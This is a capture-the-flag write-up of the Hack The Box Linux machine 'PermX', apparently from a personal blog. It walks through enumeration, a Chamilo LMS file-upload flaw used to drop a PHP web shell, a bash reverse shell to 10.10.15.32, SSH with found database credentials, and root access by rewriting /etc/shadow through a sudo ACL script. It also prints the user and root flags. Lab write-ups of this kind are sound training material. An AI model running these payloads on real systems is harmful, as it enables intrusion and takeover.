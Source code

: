 ```yaml
---
layout: post
title: "HTB Linux Easy: PermX"
description: "PermX is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240715112814.png](/images/Pasted image 20240715112814.png){: .normal }


### Enumerate HTTP (Port 80)
Perform directory busting using Gobuster.
![Pasted image 20240715112809.png](/images/Pasted image 20240715112809.png){: .normal }

Ffuf subdomain enumeration result.
![Pasted image 20240715112801.png](/images/Pasted image 20240715112801.png){: .normal }


### Enumerating Subdomain (lms.permx.htb)
Main login page.
![Pasted image 20240715112756.png](/images/Pasted image 20240715112756.png){: .normal }

Found robots.txt.
![Pasted image 20240715112751.png](/images/Pasted image 20240715112751.png){: .normal }

In the /documentation/ subdirectory we discover that the version running is 1.11.
![Pasted image 20240715112743.png](/images/Pasted image 20240715112743.png){: .normal width="500" }

Found CVE: [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

Verify the existence of BigUpload in the application:
![Pasted image 20240715112736.png](/images/Pasted image 20240715112736.png){: .normal width="500" }

Gain RCE:
```bash
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' '<http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported>'
The file has successfully been uploaded.
$ curl '<http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php>'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell as www-data:
```bash
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.15.32/443 0>&1'"); ?>
```


### Lateral movement
Found DB credentials.
![Pasted image 20240715112730.png](/images/Pasted image 20240715112730.png){: .normal }

Use the DB credentials to SSH as the mtz user (found in home directory).
![Pasted image 20240715112724.png](/images/Pasted image 20240715112724.png){: .normal }

User.txt: `863fa15050c164ae334f008b2b4f70e8`
![Pasted image 20240715112720.png](/images/Pasted image 20240715112720.png){: .normal width="500" }



## Privilege Escalation
Sudo -l output.
![Pasted image 20240715112712.png](/images/Pasted image 20240715112712.png){: .normal }

The script in question allows us to modify permissions on files: [Link](https://linux.die.net/man/1/setfacl).
![Pasted image 20240715112702.png](/images/Pasted image 20240715112702.png){: .normal width="600" }

However the content must be in the mtz’s home directory, to bypass this we can create a symlink:
```bash
ln -s / symlink
```

We can now invoke the script and change the permissions on the shadow file for the root user, this way we can switch to the root user using our own specified password.
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/symlink/etc/shadow
```

Generate the password (root):
![Pasted image 20240715112655.png](/images/Pasted image 20240715112655.png){: .normal }

Update the shadow file with the hash and change to the root user using the root password:
![Pasted image 20240715112650.png](/images/Pasted image 20240715112650.png){: .normal width="500" }

Root.txt: `9644db72db3b3c64a3b580ba2e47b6ca`
![Pasted image 20240715112646.png](/images/Pasted image 20240715112646.png){: .normal width="500" }


## PWNED!!!
![Pasted image 20240715112641.png](/images/Pasted image 20240715112641.png){: .normal }
